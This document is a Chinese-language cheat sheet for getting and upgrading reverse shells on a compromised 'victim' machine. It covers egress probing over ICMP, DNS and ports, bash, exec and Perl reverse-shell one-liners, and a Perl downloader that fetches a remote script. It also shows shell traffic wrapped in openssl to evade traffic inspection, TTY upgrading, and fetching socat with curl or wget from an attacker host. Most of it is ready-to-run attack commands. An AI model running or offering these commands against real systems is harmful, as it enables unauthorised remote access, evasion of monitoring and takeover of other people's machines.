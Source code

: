 ### 1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
### 2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
Linux受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
Windows受害机上执行：ping -l 65 -n 1 xx.xx.xx.xx
```
# 3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xxx.dnslog.cn
查看反连平台

想要修改hosts，经测试，如下这种是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
### 3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```
### 4、反弹shell
```
bash反弹shell：
VPS上执行：nc -n -v -lp 1024
受害机上执行：/bin/bash -i >& /dev/tcp/<your_vps>/1024 0>&1
需要注意，当在URL地址栏或burp中进行命令注入利用时，需执行：/bin/bash -i %3E%26 /dev/tcp/xx.xx.xx.xx/1024 0%3E%261

exec反弹shell：0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
### 5、绕过流量审查反弹shell
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect xx.xx.xx.xx > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
### 6、将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为全功能的shell

如果拿到的shell执行Ctrl-z会退出会话，可考虑使用socat的方案：

攻击机：
socat file:`tty`,raw,echo=0 tcp-listen:4444
受害机：
curl -o /tmp/socat http://192.168.81.160:8000/socat 或者 wget -O /tmp/socat http://192.168.81.160:8000/socat
chmod u+x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
此时拿到的shell可以执行删除、可以选择历史命令、可以执行ctlr-c
```
### 参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://saucer-man.com/information_security/233.html#cl-1  



perl反弹shell  
用于生成下载脚本的bash命令：
```
echo use LWP::Simple\;\$url=\"http://1.1.1.1/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行后生成d.pl，再执行d.pl下载r.pl，r.pl（用于反连的perl脚本）如下：
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```

1、bash反弹shell  
attack执行：nc -lvp 2333  
victim执行：
```
bash -i >& /dev/tcp/1.1.1.1/2333 0>&1
```
